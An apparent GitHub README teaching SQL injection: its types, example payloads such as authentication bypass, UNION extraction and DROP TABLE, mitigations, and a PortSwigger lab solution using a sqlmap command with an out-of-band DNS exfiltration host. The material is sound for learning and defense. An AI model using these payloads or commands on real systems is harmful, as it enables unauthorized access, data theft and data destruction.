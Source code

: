 # SQL Injection Vulnerability

## Overview
SQL Injection (SQLi) is a web security vulnerability that allows an attacker to manipulate the queries an application makes to its database. By exploiting SQL queries, an attacker can retrieve, modify, or delete database records without proper authorization.

## Types of SQL Injection
- **In-band SQL Injection**: Uses the same channel to both launch the attack and gather results.
  - **Error-Based SQL Injection**: Extracts information through database error messages.
  - **Union-Based SQL Injection**: Uses the `UNION` SQL operator to retrieve additional data.
- **Blind SQL Injection**: Exploits queries that do not return results but still affect database logic.
  - **Boolean-Based Blind SQLi**: Infers data by observing application behavior.
  - **Time-Based Blind SQLi**: Uses time delays to determine query success.
- **Out-of-Band SQL Injection**: Utilizes external systems like DNS or HTTP requests to exfiltrate data.

## Impact of a SQL Injection Attack
The severity of SQLi depends on the vulnerability. In the worst-case scenario, an attacker can:
- Leak sensitive data
- Perform CRUD (Create, Read, Update, Delete) operations
- Execute Remote Code Execution (RCE)

## Example of a SQL Injection Attack
### Vulnerable Query (User Authentication)
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password123';
```
If an attacker inputs `' OR '1'='1`, the resulting query becomes:
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```
Since `1=1` always evaluates to true, the attacker gains unauthorized access.

## Exploitation Techniques
- **Extracting Data**: `UNION SELECT username, password FROM users;`
- **Bypassing Authentication**: `admin' --`
- **Altering Database**: `DROP TABLE users;`
- **Enumerating Database Schema**:
  - **MySQL**: `SELECT table_name FROM information_schema.tables;`
  - **MSSQL**: `SELECT name FROM sys.tables;`

## Mitigation Strategies
### 1. Use Prepared Statements (Parameterized Queries)
```python
cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))
```

### 2. Implement Stored Procedures
```sql
CREATE PROCEDURE ValidateUser (@username VARCHAR(50), @password VARCHAR(50))
AS
BEGIN
    SELECT * FROM users WHERE username = @username AND password = @password;
END
```

### 3. Apply the Principle of Least Privilege
- Use database accounts with minimal permissions.

### 4. Validate and Sanitize Input
- Reject unexpected characters and enforce input length restrictions.

### 5. Use Web Application Firewalls (WAFs)
- Tools like **AWS WAF** or **ModSecurity** can block common SQLi patterns.

## Solution to PortSwigger Labs
### Lab 1: SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data
```
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application executes a SQL query like the following:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1;

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.
```
#### Steps to Exploit
1. Attempt to break the SQL query by adding `'`, `"`, `[`, etc. (Refer to [SecLists - SQLi Fuzzing](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/SQLi/Generic-SQLi.txt))
2. Use SQLMap to automate exploitation:
```sh
sudo sqlmap -u 'https://0a7600f603ba54f885822399001d0005.web-security-academy.net:443/filter?category=Accessories*' \
--cookie='session=ma2R4BBvX2qlhfa1rxLtomrI2mEf8WtS' --batch --dns-domain=pa3t9ag3m5yqdm6stxugb16nsey5mvak.oastify.com
```

## References
- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger SQLi Labs](https://portswigger.net/web-security/sql-injection)

---
This repository contains examples, test cases, and solutions related to SQL Injection vulnerabilities. Feel free to contribute and explore various SQLi scenarios! 🚀

